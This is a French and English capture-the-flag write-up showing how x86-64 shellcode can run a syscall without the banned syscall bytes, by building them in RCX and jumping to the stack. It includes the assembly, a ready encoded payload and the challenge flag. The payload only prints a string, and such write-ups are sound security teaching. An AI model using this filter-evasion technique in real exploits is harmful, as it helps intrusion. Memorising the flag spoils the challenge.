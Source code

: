 # Shellcode Obfuscation 2
## Write-up
### Solution (Français)
Ici les contraintes qui nous sont données sont de ne pas utiliser les bytes "\x05\x0f", qui sont les bytes pour faire un syscall. La difficultée viens du fait qu'on ne peux pas manipuler les bytes passées. Il faut donc trouver comment executer un syscall sans l'instruction syscall.

Utiliser int 0x80 ne fonctionne pas étant donnée qu'on est en 64bit

Une des façons de faire notre syscall est de stocker les bytes "\x05\x0f" et d'utiliser une instruction jmp pour ensuite faire notre syscall.

Comme on ne veut pas modifier nos registres précedents, on peut utiliser le registre RCX pour pousser notre code. 
On mov 0x04 et 0x0e(pour éviter d'avoir nos bytes interdits dans le payload) dans CH et CL respectivement pour avant des les incrémenter. 
On les pousse dans le stack et on peut ensuite les executer en sautant a RSP

Voici le code pour faire ça:
``` assembly
BITS 64
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x6e726f63706f50
xor [rsp], rax
push 1
pop rdi
push 8
pop rdx
mov rsi, rsp
push 1
pop rax

xor rcx,rcx
mov ch,0x04
inc ch
mov cl,0x0e
inc cl
push rcx
jmp rsp
```
La première partie setup le syscall pour write, et la deuxieme l'execute.

Payload: `\x48\xb8\x01\x01\x01\x01\x01\x01\x01\x01\x50\x48\xb8\x51\x6e\x71\x62\x6e\x73\x6f\x01\x48\x31\x04\x24\x6a\x01\x5f\x6a\x08\x5a\x48\x89\xe6\x6a\x01\x58\x48\x31\xc9\xb5\x04\xfe\xc5\xb1\x0e\xfe\xc1\x51\xff\xe4`

Flag: `flag-Q6Z9F7J1P8T3C4M2V7R9L1Y5X6W3K8N2`

### Solution (English)
Here the constraints that are given to us are not to use the bytes "\x05\x0f", which are the bytes to make a syscall. The difficulty comes from the fact that we cannot manipulate the bytes passed. So we have to find out how to execute a syscall without the syscall instruction.

Using int 0x80 does not work because we are in 64bit

One way to make our syscall is to store the bytes "\x05\x0f" and use a jmp instruction to then make our syscall.

Since we don't want to modify our previous registers, we can use the RCX register to push our code.
We mov 0x04 and 0x0e (to avoid having our forbidden bytes in the payload) into CH and CL respectively before incrementing them.
We push them into the stack and can then execute them by jumping to RSP

Here is the code to do this:
``` assembly
BITS 64
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x6e726f63706f50
xor [rsp], rax
push 1
pop rdi
push 8
pop rdx
mov rsi, rsp
push 1
pop rax

xor rcx,rcx
mov ch,0x04
inc ch
mov cl,0x0e
inc cl
push rcx
jmp rsp
```
The first part sets up the syscall for write, and the second executes it.

Payload: `\x48\xb8\x01\x01\x01\x01\x01\x01\x01\x01\x50\x48\xb8\x51\x6e\x71\x62\x6e\x73\x6f\x01\x48\x31\x04\x24\x6a\x01\x5f\x6a\x08\x5a\x48\x89\xe6\x6a\x01\x58\x48\x31\xc9\xb5\x04\xfe\xc5\xb1\x0e\xfe\xc1\x51\xff\xe4`

Flag: `flag-Q6Z9F7J1P8T3C4M2V7R9L1Y5X6W3K8N2`